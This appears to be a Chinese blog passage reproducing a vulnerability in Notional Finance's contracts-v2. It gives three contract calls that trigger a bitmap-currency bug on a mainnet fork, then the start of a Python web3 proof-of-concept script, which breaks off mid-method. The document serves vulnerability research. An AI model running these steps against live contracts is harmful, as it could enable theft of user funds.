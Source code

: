   
对于漏洞的复现，其实步骤很简单。源码：https://github.com/notional-finance/contracts-v2  
  
  
npx hardhat node --fork https://eth-mainnet.alchemyapi.io/v2/your_key --fork-block-number 13950000  
  
  
（1）enableBitmapCurrency(1) //启用bitmap,将ETH设置为bitmapCurrency。  
  
  
（2）depositUnderlyingToken(useraddr,2,amount) //充值DAI  
  
此处如果没有DAI，需要先到swap购买DAI，然后approve notional的代理合约地址。  
  
  
（3）enableBitmapCurrency(2) //启用bitmap,将DAI设置为bitmapCurrency。  
  
  
此3步就能完全复现漏洞。  
  
  
具体的POC，我是直接用python web3调用的，也可以自己构造或者用contract实现。  
  
  
这是我临时用的py 测试脚本，可以参考。  
```
from web3 import Web3
from Constant import Abi
import binascii
 
class Poc:
    def __init__(self):
        self.web3 = Web3(Web3.HTTPProvider('http://127.0.0.1:8545'))
        #self.web3 = Web3(Web3.HTTPProvider("https://mainnet.infura.io/v3/yourkey"))
        self.NationalAbi = Abi.NationalAbi
        #self.addr = '0xdE14D5F07456c86F070C108A04Ae2fafdbD2A939'
        self.addr = "0x1344A36A1B56144C3Bc62E7757377D288fDE0369"
        self.uni_router = "0x7a250d5630B4cF539739dF2C5dAcb4c659F2488D"
        self.cdai_address = "0x5d3a536E4D6DbD6114cc1Ead35777bAB948E3643"
        self.dai_address = "0x6B175474E89094C44Da98b954EedeAC495271d0F"
        self.uniswap_router_abi = Abi.UniswapRouter2
        self.cdai_abi = Abi.CDaiAbi
        self.dai_abi = Abi.DaiAbi
        self.contract = self.web3.eth.contract(address=self.addr, abi=self.NationalAbi)
        self.uniswapRouter =self.web3.eth.contract(address=self.uni_router,abi=self.uniswap_router_abi)
        self.cdai_token = self.web3.eth.contract(address=self.cdai_address,abi=self.cdai_abi)
        self.dai_token = self.web3.eth.contract(address=self.dai_address,abi=self.dai_abi)
        self.privatekey = "your privatekey"
        self.account = self.web3.eth.account.from_key(self.privatekey)
        self.txParams = {
            'chainId': 31337, #hardhat chianid
            'nonce': self.web3.eth.getTransactionCount(self.account.address),
            'gas': 2000000,
            'from': self.account.address,
            # 'value': Web3.toWei(0, 'ether'),
            'gasPrice': self.web3.eth.gasPrice,
        }
 
    def get_free_collateral(self, address):
        '''
           获取
        :param address:
        :return:
        '''
        result = self.contract.functions.getFreeCollateral(address).call()
        print(result)
 
    def enable_bitmapCurrency(self, currencyid):
        '''
        开启bitmapCurrency
```